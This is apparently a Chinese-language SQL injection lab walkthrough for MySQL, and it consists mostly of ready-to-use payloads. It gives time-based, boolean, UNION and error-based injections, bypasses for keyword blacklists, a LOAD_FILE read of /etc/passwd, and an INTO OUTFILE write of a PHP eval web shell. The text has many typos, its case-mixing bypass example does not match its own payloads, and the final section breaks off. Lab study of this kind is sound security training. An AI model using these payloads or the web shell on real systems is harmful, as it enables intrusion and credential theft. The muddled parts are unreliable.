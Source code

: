 #SQL—Injection
应用程序在向后台数据库传递SQLc查询时，如果为攻击者提供了影响该查询的能力，就会引起sql注入。简而言之就是程序代码在编写的时候没有对用户可控的变量进行合适的判断d和处理导致不可信数据被作为命令或是数据查询的一部分发送到用户客户端，导致漏洞的发生。
##Mysql注入
###Mysql数据库版本
 - show version(); < 5.0 没有information_schema数据库;
 - show version(); > 5.0 有内置information_schema数据库，可以快速查找表明;
 - show version(); > 5.5 有内置information_schema数据库和performance_schema数据库(用于收集数据库服务器性能参数)；  

###注释符
 - `#` `/*` `-- -` `;%00`  `` ` 
 - 值得注意：在Accsee数据库中没有注释符的存在，但是在一定条件下可以使用%00来代替注释符。

###注入方式
 - inband,利用攻击者和存在漏洞的wen程序之间现有的f通信方式来进行sql注入并提取数据，Union注入、报错注入(error-base)；
 - inference,通过传入不同的参数值来观察web程序表现的差异性来进行sql注入并提取数据，布尔值注入(bool)、时间注入(time-base)；
 - Out-of-inband，当现有的通信渠道不能提取数据d时，我们可以利用其他渠道来尝试提取数据，如e-mail、HTTP/DNS、文件系统；

###Mysql 读写文件
 - LOAD_FILE() 
    - SELECT LOAD_FILE('/etc/passwd');
    - Mysqlyd用户必须有文件读取的权利；文件大小要小于max_allowed_packet;
 - INTO OUTFILE()
   - SELECT '<?php eval($_REQUEST[\'s\']);>' INTO FILE '/var/www/1.php';
   - INTO OUTFILE不能覆盖已经存在的文件；

###常用函数
 - `@@VERSION()` `VERSION()` `current_user` `database()` `@@HOSTNAME`

##SQL
 - [SQL-1](#sql-1)
 - [SQL-2](#sql-2)
 - [SQl-3](#sql-3)
 - [SQl-4](#sql-4)
 - [SQL-5](#sql-5)
 - [SQl-6](#sql-6)
 - [SQl-7](#sql-7)
 - [SQl-8](#sql-8)


##<span id="SQL-1">SQL-1</span>
###mysql_query
 - `SELECT * FROM users WHERE id=1 LIMIT 0,1;`
###Payload
 - time-based blind 
    - `id=1 AND SLEEP(5) `
    - `id=1 AND (SELECT * FROM (SELECT(SLEEP(5)))Kevinsa)`
 - boolean-based blind 
    - `id=1 AND 6036=6036`
 - UNION query
    - `id=-3563 UNION ALL SELECT NULL,NULL,CONCAT()--`

##<span id="SQL-2">SQL-2</span>
对比于SQL-1的直接传值$id，SQL-2中在SQL-1注入Payload的基础上需要对y单引号`'`进行闭合；
###mysql_query
 - `SELECT * FROM users WHERE id='$id' LIMIT 0,1;`
###PayLoad
 - time-based blind 
    - `id=1' AND SLEEP(5) AND 'sql'='sql`
    - `id=1' AND (SELECT * FROM (SELECT(SLEEP(5)))Kevinsa) and 'Kevinsa'='Kevinsa`
 - boolean-based blind 
    - `id=1' AND 6036=6036 AND 'Drgh'='Drgh`
 - UNION query
    - `id=-3563' UNION ALL SELECT NULL,NULL,CONCAT()-- Kevinsa'`

##<span id="SQL-3">SQL-3</span>
###mysql_query
 - `SELECT * FROM users WHERE id=($id) LIMIT 0,1;`
###Payload
 - time-based blind
    - `?id=1) AND SLEEP(5) AND (1=1# `
 - boolen-based blind
    - `?id=1) AND 1378=1379 AND ('ARzY'='ARzY'`

##<span id="SQL-4">SQL-4</span>
可以看到SQL-4与SQL-1是相类似的，在不需要闭合任何符合的情况下就可以进行SQL注入，但是在SQL-4中值得一提的是，SQL-4中开启了`mysql_error();`，r所以我们可以利用报错注入的方式来提取数据。
###mysql_query
 - ```
   $sql_query="SELECT * FROM users WHERE id=$id LIMIT 0,1";
   mysql_query($sql_query);
   echo mysql_error;
   ```

###Payload
 - error-based blind
    - `?id=1 AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(user(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)`
        - floor(rand(0)*2)、count(*)、group by，报错方式的原理是：使用rand()查询时，由于group by的存在floor(rand(0)*2)会被执行一次，当x虚拟表不存在时，插入虚拟表会被再执行一次，而报错正是因为floor(rand(0)*2)的确定性011；文章：Wooyun知识库-Mysql报错注入原理分析(count()、rand()、group by)
    - `id=1  and (extractvalue(1,concat(0x7e,(select user()),0x7e)))`
        - extractvalue是mysql5.1提供的内置XML文件解析和修改函数，函数语法为extratvalue(XML_document,XPath_string),其中的XML_document是string格式，而当我们传入一个数值时，extractvalue()函数会产生报错；
    - `id=1  and (updatexml(1,concat(0x7e,(select user()),0x7e),1))`
        - updatexml同样是mysql5.1中提供的内置xml文件解析和修改函数，函数语法为updatexml(XML_document,XPath_string,new_value),其中的XML_document是string格式，而当我们传入一个数值时，updatexml()函数会产生报错；

##<span id="SQL-5">SQL-5</span>
虽然SQL-5的csql查询方式和SQL-1一样，但是php代码中没有对结果的输出点，而且注入布尔值判断也不影响页面正常输出任何内容，所以我们只能利用time-based blind。
###mysql_query
 - `SELECT * FROM users WHERE id='$id' LIMIT 0,1; 
    /* echo mysql_query(); */`
###Payload
 - time-based blind 
    - `id=1 AND SLEEP(5) `
    - `id=1 AND (SELECT * FROM (SELECT(SLEEP(5)))Kevinsa)`

##<span id="SQL-6">SQL-6</span>
SQL-6对比与SQL-1多了一层粗糙的过滤，`function sqlentities()`以黑名单的方式对id参数值进行过滤。
###mysql_query
 - ```
   function sqlentities($var) {
    $var = str_replace("select"," ",$var);
	$var = str_replace("sleep"," ",$var);
	$var = str_replace("and"," ",$var);
	$var = str_replace("from"," ",$var);
	$var = str_replace("where"," ",$var);
	$var = str_replace("union"," ",$var);
	
	return $var;
	}

   ```
###Payload
最简单的方式，我们一大小写混淆来绕过过滤
- time-based blind 
    - `id=1 AND SLEEP(5) `
    - `id=1 AND (SELECT * FROM (SELECT(SLEEP(5)))Kevinsa)`
 - boolean-based blind 
    - `id=1 AND 6036=6036`
 - UNION query
    - `id=-3563 UNION ALL SELECT NULL,NULL,CONCAT()--`

##<span id="SQL-7">SQL-7</span>
相对于SQL-6，SQL-7匹配为大小写匹配，我们不能用大小写混淆来绕过过滤。
###mysql_quey
 -  ```
    function sqlentities($var) {
    $var = preg_replace('/(select|where|sleep|and|from|union)/i',"",$var);
	return $var;
	}
	}
  ```

###Payload
- time-based blind 
    - `id=1 ANandD SLandEEP(5) `
    - `id=1 AND (SELEandCT * FandROM (SandELECT(SLandEEP(5)))Kevinsa)`
 - boolean-based blind 
    - `id=1 ANandD 6036=6036`
 - UNION query
    - `id=-3563 UNandION ALL SELECandT NULL,NULL,CONCAT()--`

####<span id="SQL-8">SQL-8</span>
###mysql_query
 - ```
   $name=$_POST['username'];  
   $password=$_POST['password']; 
   ```

